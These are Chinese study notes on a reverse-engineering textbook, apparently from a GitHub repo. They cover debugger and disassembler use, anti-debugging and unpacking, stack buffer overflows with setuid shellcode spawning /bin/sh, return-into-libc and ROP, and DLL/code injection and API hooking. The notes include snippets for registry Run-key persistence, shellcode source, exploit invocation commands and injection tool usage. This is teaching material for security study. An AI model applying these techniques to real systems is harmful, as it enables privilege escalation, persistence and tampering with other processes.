


- 冯诺依曼结构的核心：处理器按照顺序执行指令和操作数据。无论是指令还是数据，本质都是二进制构成的序列。逆向工程通过分析二进制(反汇编后的汇编代码)来分析程序行为。

------------
- 静态分析：在不运行目标程序的情况下进行分析
- 动态分析：在运行目标程序的情况下进行分析

# Ch1 hello,world
## sample_mal.exe - hello,world
待分析样本：ch1_sample_mal.exe (运行前请 copy 备份一份,即 ch1_sample_mal.exe.backup，该程序会自我删除，无恶意行为)

程序行为：
- 1）将自己复制到启动文件夹以便在系统重启时运行：在启动文件夹创建 0.exe、在我的文档创建 1.exe
- 2）修改注册表以便在系统重启时运行：在注册表创建 Software\\Microsoft\\Windows\\CurrentVersion\\Run\sample_mal

完整源码参考原始 repo，上述行为代码如下:
```cpp
	case WM_DESTROY:
		// file
		GetModuleFileName(NULL, szMe, sizeof(szMe));
		SHGetSpecialFolderPath(NULL, szPath, CSIDL_STARTUP, FALSE); // CSIDL_STARTUP 启动文件夹
		lstrcat(szPath, "\\0.exe");
		CopyFile(szMe, szPath, FALSE);
		// reg
		SHGetSpecialFolderPath(NULL, szPath, CSIDL_PERSONAL, FALSE); // CSIDL_PERSONAL 我的文档
		lstrcat(szPath, "\\1.exe");
		CopyFile(szMe, szPath, FALSE);
		SetRegValue(HKEY_LOCAL_MACHINE,                             // 注册表自启动项
			"Software\\Microsoft\\Windows\\CurrentVersion\\Run", 
			"sample_mal", szPath, strlen(szPath));
		SelfDelete();                                               // 自我删除(因此进行该实验前请先备份文件)
		PostQuitMessage(0);
		break;
```
实验流程：1. 双击运行该文件，然后关闭窗口（触发相关行为）；2. 观察相关位置是否被修改（分别从文件系统、注册表和Process Monitor观察）；3. 还原：删除对应位置的文件和注册表即可。

Win11 启动文件夹位置：C:\Users\（用户名）\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
## wasample01a.exe - 静态分析 hello,world
待分析样本：ch1_wasample01a.exe 用 WinHex 打开可以看到一些字符串，用 IDA 打开在 Hex View 也类似，IDA 打开文件时选 PE 格式，shift+F4 打开 Names Window，双击 wWinMian 函数跳转到对应的 View-A 反汇编代码页面的对应函数汇编代码位置。
分别执行：
```bash
./ch1_wasample01a.exe
./ch1_wasample01a.exe 2012
```
发现窗口中文案有变化，阅读汇编代码可以看到程序执行了lstrcmpW()函数，并根据结果分别进入了两个分支。以下是该程序的源码：
```cpp
#include <Windows.h>
#include <tchar.h>

int APIENTRY _tWinMain(
	HINSTANCE hInstance, 
	HINSTANCE hPrevInstance, 
	LPTSTR    lpCmdLine, 
	int       nCmdShow)
{
	if(lstrcmp(lpCmdLine, _T("2012")) == 0){
		MessageBox(GetActiveWindow(), 
			_T("Hello! 2012"), _T("MESSAGE"), MB_OK);
	}else{
		MessageBox(GetActiveWindow(), 
			_T("Hello! Windows"), _T("MESSAGE"), MB_OK);
	}	
	return 0;
}
```
在IDA Pro View-A 按 F5 可以查看C语言伪码（这里需要用32bit的IDA），可以看到伪码跟上述源码差不多。
## wasample01b.exe - 动态分析 hello,world
待分析样本：ch1_wsample01b.exe 用 Process Monitor 监控，设置过滤规则只看该程序的文件操作，可以看到与 sample_mal.exe 有同样的行为：在启动文件夹释放了程序副本。要进一步跟踪程序逻辑，需要用到调试器。调试器具有断点；单步跳入、跳出；查看寄存器和内存数据等功能。此处使用 x32dbg 进行动态调试。

- 反汇编窗口 Ctrl+G => 00401000 (注意这是x32的地址) 跳转到该地址的程序逻辑，看到程序依次执行了四个函数，并且结合 ProcessMonitor 的监控结果知道程序会向启动文件夹复制文件，因此猜测第四个函数 CopyFileW 即实现该功能。如果要调试到该处的代码，需要在00401000处下好断点然后F9(会一直执行到断点)即可。然后按 F8 单步调试（不进入函数内部），直到 00401062 即 call dword ptr ds:[<&CopyFileW>]，此时启动文件夹下还没有程序。此时继续按下 F8，启动文件夹下出现该程序。因此可以判断该行指令调用的函数即实现启动文件夹副本释放的功能。

在软件分析时，一般先用 WinHex 和 IDA 先看一下软件整体情况，然后再用调试器单步运行看一些关键点。

## 汇编基础
- 寄存器：EAX、ECX、EDX、EBX、ESP、EBP、ESI、EDI、EIP；
- 标志寄存器：ZF、PF、AF、OF、SF、DF、CF、TF、IF；
- 只有 WinDbg 才能对 Windows 系统内核程序进行调试，分析 Rootkit 这类运行在 Windows 内核中的恶意程序时需要该调试器；
- 一般子程序的返回值写在 EAX 寄存器中；
- 大多数情况下 test 指令后都跟两个相同的寄存器名称，test 是判断寄存器的值是否为0，若为0设置 ZF=1；

Windows 汇编器：[nasm](nasm.us) 连接器: ALINK 汇编程序样本：ch1_hello32.asm

# Ch2 游戏调试与反调试基础
在分析本书样本之前，可以先用 CheatEngine 分析一下自带教程，在 Help 里，会打开一个新的窗口，然后在CE里直接挂载这个进程。

## ch2_shooting

打开 shooting.exe 先玩一下，然后通过 CheatEngine 搜索 Score。这个时候可能有多个返回结果，我们继续玩游戏，CE里修改数值，再 NextScan 一次。如果还是定位到该变量，尝试修改数值，观察游戏中的数值是否发生改变。注意：Memory Scan Options 里别选 shooting.exe。

## ch2_guitest
内存转储(memory dump)：把内存数据转储成文件；
随着程序的运行，内存中的数据会随着时间不断变化，如果想要保存某个时间点的快照，就用内存转储。

Windows任务管理器->选中进程右键->创建转储文件
由于目前的Windows已经默认不带有 Dr.Watson 内存转储工具（win xp以后的高版本windows可以手动设置实时调试器，如 OllyDbg），此处已经给出了分析结果。
```
*----> 线程 Id 0x4d8 的状态转储  <----*

eax=00000001 ebx=00000000 ecx=00000000 edx=00000041 esi=00401290 edi=0012f958
eip=004012bf esp=0012f8f0 ebp=0012f8f0 iopl=0         nv up ei pl zr na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246

*** ERROR: Module load completed but symbols could not be loaded for C:\Temp\guitest.exe
函数: guitest
        004012a4 106683           adc     [esi-0x7d],ah
        004012a7 f8               clc
        004012a8 01740c66         add     [esp+ecx+0x66],esi
        004012ac 83f802           cmp     eax,0x2
        004012af 7406             jz      guitest+0x12b7 (004012b7)
        004012b1 33c0             xor     eax,eax
        004012b3 5d               pop     ebp
        004012b4 c21000           ret     0x10
        004012b7 0fb7c0           movzx   eax,ax
        004012ba ba41000000       mov     edx,0x41
错误 ->004012bf 668911           mov     [ecx],dx              ds:0023:00000000=????
        004012c2 8b4d08           mov     ecx,[ebp+0x8]
        004012c5 50               push    eax
```
可以看到此时 ecx 的地址是 0，NULL ptr 导致程序崩溃。

对于转储的 .dmp 文件，可以用 WinDbg 分析：File -> Open Crash Dumps，这里分析方式参考书（因为我的实验环境装不上WinDbg..)

游戏机的调试分析网站：devkitPro

## 反调试技术
系统内部抵抗分析的能力称为：抗篡改性（tamper resistance）

- 动态反调试:
	- IsDebuggerPresent()
	- CheckRemoteDebuggerPresent()
	- anti-debug popf
	- anti-debug int2d
- 静态代码混淆：
	
	上述方式可以有效防止动态调试，但无法阻止静态反汇编。并且静态反汇编后找到上述代码逻辑然后NOP填充掉，就可以轻易破解。
	此时可采用的防止代码被分析的方式：代码混淆，处理后的代码在IDA中显示的代码可能和实际执行的代码不同。

	相关论文：
	- obfuscation of executable code to improve resistance to static disassembly
	- binary obfuscation using signals
- 可执行文件加壳(压缩壳、反调试壳)：

	通过打包器(packer)对二进制程序进行压缩，压缩后的文件仍然可以直接运行。加壳不但可以加大分析难度，同时还可以改变自身程序的特征码。一般来说用于反调试的壳没有官方的脱壳程序，需要手工脱或者社区提供的工具。
	- UPX：支持 ELF, DLL, COFF 等多种文件格式；原理：将解压缩代码放在前面，运行程序时解压原本的可执行代码和数据。（但 UPX 可以自动脱壳）。脱壳也很简单：upx -d
	- ASPack: 反调试壳。

	手动脱壳原理是手动调试到壳程序解包代码段，然后在解包代码段执行结束后，把当前二进制程序内存数据转储下来。得到脱壳后的实际可执行的二进制程序。一般而言，unpack 代码段由 pushad(将所有寄存器的值复制到栈) 开始，由 popad 结束，然后在 popad 处，找到实际程序的入口点 dump 出即可。比如在 popad 处下断点。

- 调试器、软件断点、硬件断点

	软件断点：调试器把程序断点位置的指令修改为 0xCC (int3h) 处理器遇到该指令后会通过操作系统将异常报告给调试器。因此只要在指定位置写入 0xCC 就可以在任意时间和位置中断程序运行。
	硬件断点：类似软件断点，但不是通过中断指令完成，而是直接把地址写入寄存器 DR。并且不仅可以实现运行到指定位置实现中断，也可以实现当向指定位置写入数据时中断、当从指定位置读取数据时中断等。但缺点是硬件断点的数量受到硬件限制（DR0~DR3，共4个）。

	为了反调试，pack程序向内存写入解包后的可执行数据时，会覆盖掉软件断点，因此在一些情况下只能使用硬件断点。

	另外，手工调试时找 popad 比较麻烦，对于 32 位程序可以直接对 00401000 地址下一个硬件断点（如果操作系统启用了 ASLR 安全机制就不能采用这种方式）。此时反汇编窗口该地址还是 db 数据，而不是指令（尚未解包）。F9 运行程序到硬件断点出发时，此时可执行数据已经完成了解包。如果此时 UI 上没显示反汇编后的代码，可以按下 Ctrl+A （OllyDbg 快捷键）重新分析程序。然后 dump 出来即可。

- Java、.NET 平台的逆向
	由于都不是直接编译成平台可执行程序，而是变成中间语言，通过 JVM、CLR(common language runtime) 执行。因此对该类语言编译的程序的逆向工程的主要目的是尽可能还原最接近原始状态的源码。

# Ch3 利用软件漏洞进行攻击

```cpp
char buff[64];
strcpy(buff, argv[1])
```
该代码段存在缓冲区溢出漏洞，如果命令行参数传的字符串长度超过64上述程序行为将不可预测。


Linux文件权限：如 “dr-xr-xr-x”
	
	- 第一个字符：d 代表目录；- 代表文件；l 代表链接文档(link file)；其他略
	- 后面9个字符：分三组，每组3个，分别代表用户权限、组权限、所有人的权限。rwx：读、写、执行。
	- 对于x位，也可能为s字符，代表该程序启用了 setuid 机制。

- 普通账户获取管理员权限运行程序：setuid 机制可以让普通用户也借用管理员权限。

对 ch3_sample1.c 编译并设置 setuid，此时如果非root用户运行该程序编译后的二进制文件，会以 root 权限运行/bin/sh (该程序是 *unix 系统的 shell) 可以获取 root 权限。
```bash
su
gcc -Wall ch3_sample1.c -o sample1
chmod 4755 sample1
ls -l sample1
exit
```

## 实验：利用缓冲区溢出提取权限 

系统：FreeBSD-8.3、
原理：函数局部变量存放在栈中，并且函数调用的参数也是通过栈传递。而内存中的栈由栈寄存器 ESP(栈顶指针)、EBP(栈基址) 维护。每 push 进栈一个数据后，ESP--。call 进函数内部时，先把返回地址入栈，再新建栈，把当前的栈基址(%EBP)进栈，然后修改EBP为ESP。根据前面描述，当函数内部的数组缓冲区溢出时，溢出会覆盖高地址的栈数据，导致程序执行流异常。此时攻击者可以操纵程序跳转到任意地址，如果事先准备好代码，可以实现任意代码执行。

```bash
su
chmod 4755 ch3_sample2
exit

./ch3_sample2 `python exploit.py`
> 0xbfbfebe8
./ch3_sample2 ”`python exploit.py 0xbfbfebe8`“
```

关于gdb调试：
```bash
gdb ch3_sample2
gdb>disas cpy 								# 反汇编 cpy 函数
..
gdb>b *0x080485be							# 函数出口下断点
gdb>b cpy									# 函数入口下断点（这里是新建栈后）
gdb>r "\`python -c 'print "A"*80'\`"		# 运行程序(附加命令行参数)
..
gdb>x/8x $ebp								# 查看指定寄存器/地址的8个字长数据(实验环境32位，故这里是8个32位数)
# 此时：依次是 %ebp, ret_addr, func params...
# ↓ 这里是 func params 的地址
gdb>x/1s 0xbfbfedb8							# 以字符串形式显示任意的数据
# func params 指向的地址是 'AAAAAA...’ (80个A)
gdb>c										# 继续运行
# cpy 函数结束断点
gdb>x/8x $esp
# ret_addr 被修改
```
如果在 buff 中写入一些指令，并让 ret_addr 跳转过去，便可以实现任意代码执行。攻击者要执行的代码叫做 shellcode。而一般来说，启动了/bin/sh后攻击者就能控制计算机，因此一般shellcode都是一段非常短小的机器语言代码，目的是启动/bin/sh。

以下代码是shellcode示例：
```c
int main(int argc, char *argv[])
{
    char *data[2];
    char *exe = "/bin/sh";

    data[0] = exe;
    data[1] = NULL;

    setuid(0);
    execve(data[0], data, NULL);	// 编译后这里的汇编会出发系统中断，不同系统的系统调用编号不相同，因此不同系统都需要准备相应的shellcode
    return 0;
}
```
编译：以静态链接方式（execve也会打包进文件中）
```bash
gcc -Wall =static ch3_sample1.c -o sample1
```
然后用gdb调试到汇编call execve的指令处,查看此处的内存状态
```bash
gdb> disas main
gdb> b *08048254
gdb> r
gdb> x/8x $esp
```
当然，这里有部分字节的数据与shellcode无关，因删掉即可（这里细节比较多，详细的看原书p118）,根据上面的shellcode，设计汇编代码逻辑，如ch3_sample3.s所示。用objdump将其转为机器码：
```bash
gcc -Wall ch3_sample3.s -o sample3
objdump -d sample3|grep \<main\>\: -A 16
```
检验这段机器码是否可以发挥作用，如ch3_sample4.c所示，机器码用void(*)()函数指针可以执行。
```bash
su
gcc ch3_sample4.c -o sample4
chmod 4755 sample4
exit
./sample4
```
但此处代码实际上无法对sample2实现攻击，因为机器码数据出现了0x00，是字符串结尾标记。strcpy()遇到该处时会结束。因此需要对shellcode的机器码做处理。
```
原字符串：/sh\0     (\0 即 0x00)
处理为：//sh 而 \0 用 代码: xor + push 的方式构造，因此机器码中无 0x00
代码示例：ch3_sample5.s
```
重新生成机器码：ch3_sample6.c 此时 shellcode 构造完成。

上述的案例仅供参考，现代操作系统很多都默认启用了一些安全机制，上述方案已经失效了。

## 防御攻击的技术

- 地址随机化 ASLR

	在 Ubuntu 12.02 /proc/sys/kernel/randomize_va_space 查看和修改 ASLR 设置，0：禁用、1：除堆以外随机化、2：全部随机化（默认）。通过以下代码测试 ASLR 机制：多次运行可以发现堆栈地址均不同。如果地址空间布局无法推测，则无法知道我们的shellcode地址。
	```c
	// $ gcc test00.c -o test00
	#include <stdio.h>
	#include <stdlib.h>
	unsigned long get_sp(void)
	{
	__asm__("movl %esp, %eax");
	}
	int main(void)
	{
	printf("malloc: %p\n", malloc(16));
	printf(" stack: 0x%lx\n", get_sp());
	return 0;
	}
	```

- Exec-Shield：除存放可执行代码的内存空间外，对其余内存空间尽量禁用执行权限。

	即，通过限制内存空间读写来防御攻击。
	比如：通常不会在栈空间存放可执行机器语言代码，因此可以把栈空间设置为可读写但不可执行。在代码空间中存放的机器语言代码，通常也不需要在代码运行时进行改写。因此可以把该部分空间设置为不可写。这样即使把shellcode复制到栈，也不会执行，会产生segmentation fault。

	查看进程内存空间读写权限和执行权限：
	```bash
	ps -aef | grep test02
	cat /proc/<pid>/maps | grep stack
	```

- StackGuard

	StackGuard: 在编译时各个函数入口和出口插入检测栈数据完整性的代码，属于编译器的安全性机制。
	原理：在栈末尾插入一个随机数，在函数出口检查该随机数是否被覆盖。该随机数后是 ebp 和 ret_addr 因此可以保护关键地址数据不被篡改。

	在 Ubuntu 12.02 gcc 编译默认会加上 StackGuard 机制，如不需要该机制，需要指定：`-fno-stack-protector`

## 绕开安全机制的技术
- 利用 libc 函数进行攻击：Return-into-libc 是一种破解 Exec-Shield 的技术，思路是即使无法执行任意代码(shellcode)但只要最终能执行任意程序也算夺取权限。基本原理是通过调整参数和栈的配置，使得程序能够跳转到libc.so中的 system 函数以及 exec 函数。借此运行/bin/sh等程序。

	通过 ldd 命令可以查看程序在运行时加载的动态链接库。几乎所有程序都会加载 libc.so 或者是在编译时静态链接。因此只要能调用 libc 中的 system 或者 exec 也可以夺取系统权限。在关闭 ASLR 的情况下通过 gdb 调试目标程序：
	```bash
	gdb>b main
	gdb>r
	gdb>p system
	gdb>P exit
	```
	这样获得了system和exit的地址，因此在栈溢出时，不需要让返回地址改为栈中的shellcode地址，而是改为system函数的入口地址。将/bin/sh作为其函数参数，将exit作为其返回目标。利用代码参考ch3_exploit3.py，但如果开启了ASLR或StackGuard该方式依旧不会成功。

- 利用未随机化的模块内部汇编代码进行攻击 ROP：上述方法如果启用了 ASLR 会失败。因为此时无法得知模块的准确地址，因此也无法跳转到其内部函数。利用未随机化模块内部的汇编代码拼接出所需要的逻辑：Return-Oriented-Programming

# Ch4 自由控制程序运行方式的编程技巧

## 通过自制调试器理解调试器原理

- ch4_wdbg01a.cpp 调试事件 示例程序，笔记见程序内注释
- /ch4_wdbg02a 自制调试器实现反汇编功能（基于udis86项目）

	- 功能：发生异常时能显示发生异常地址、当前寄存器的值、发生异常时执行的指令。
	- 笔记见程序内注释。release下的test.exe是会发生异常的程序，测试：
	```cmd
	wdbg02a.exe test.exe
	```
## 在其他进程中运行任意代码：代码注入
- 著名文章：Three Ways to inject your code into another process

- 方式一：通过 Windows API 劫持系统消息 SetWindowsHookEx、CallNextHookEx、UnhookWindowsHookEx

	SetWindowsHookEx 将传递给窗口过程函数的消息劫持下来传递给第二参数指定的函数。这些API是用来劫持消息的，如果要劫持其他进程的窗口过程消息，就需要“在其他进程中”加载我们的DLL。

	代码：
	- \ch4_writeappinit\loging\ 实现日志功能，记录劫持的消息
	- \ch4_writeappinit\setwindowshook\ 加载 loging 编译出的 dll

		```cmd
		setwindowshook.exe loging.dll
		```
	
	上述 setwindowshook.exe 程序可以在调用时将 loging DLL 映射到其他进程中。但如果将 dll 写入 AppInit_DLLs 项中时，则可以在系统启动时将任意 DLL 加载到其他进程中。运行 regedit，在 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows 位置下的 AppInit_DLLs 数据项写入 DLL 路径（逗号分隔）。LoadAppInit_DLLs 数据项代表是否启动 AppInit_DLLs。
	而在 64 位系统下的 32 位程序的相关设定被重定向到 HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\Microsoft\Windows NT\CurrentVersion\Windows 路径。 此时，AppInit_DLLs 通过 user32.dll 加载，对于不依赖 user32.dll 的进程这一配置是无效的。

	写入注册表程序示例 \ch4_writeappinit\writeappinit\，执行后，用调试器加载任意程序，在模块列表都会看到我们自定义的 dll。
	```cmd
	writeappinit.exe "C:\\loging.dll"
	```

- 方式二：通过 CreateRemoteThread 在其他进程中创建线程，然后在新线程中 LoadLibrary 从而注入 DLL。 注意事项： LoadLibrary 的参数需要位于目标进程内部，因此注入的 DLL 路径需要事先写入目标进程的内存空间。(code: /ch4_dllinjection)

	```bash
	dllinjection.exe Name iexplorer.exe "c:\\sampledll.dll"
	dllinjection.exe PID 3212 "c:\\sampledll.dll"
	dllinjection.exe New testproc "c:\\sampledll.dll"
	```

	上面是注入 dll 的案例，同理，可以通过把函数事先写入目标进程内存空间实现代码注入（code:/ch4_codeinjection)。

- 方式三：任意替换程序逻辑  API钩子

	API 钩子：对 API 插入额外逻辑。分为两类：1）改写目标函数开头几个字节。2）改写IAT(Import Address Table,IAT 导入地址表),IAT 钩子扩展阅读可参考《Advanced Windows》。从0实现API钩子需要大量代码，因此这里使用微软提供的 Detours API HOOK 库。只要知道 DLL export 的函数，就可以在运行时对该函数的调用进行劫持。(code: /ch4_detourshook)

	示例代码中的 dllmain 劫持了 user32.dll 导出的 MessageBoxA API，替换为 HookedMessageBoxA。当 DLL 注入该进程时，API 将会被劫持。原理：把函数开头的几个字节修改为jmp强制跳转。这里提到的API Hook只适用于用户领域下的dll导出的函数，但可以通过劫持非公开API的方式对运行在内核（Ring0）领域的驱动程序进行API Hook。

	- 参考文献：《Detours: Binary Interception of Win32 Functions》

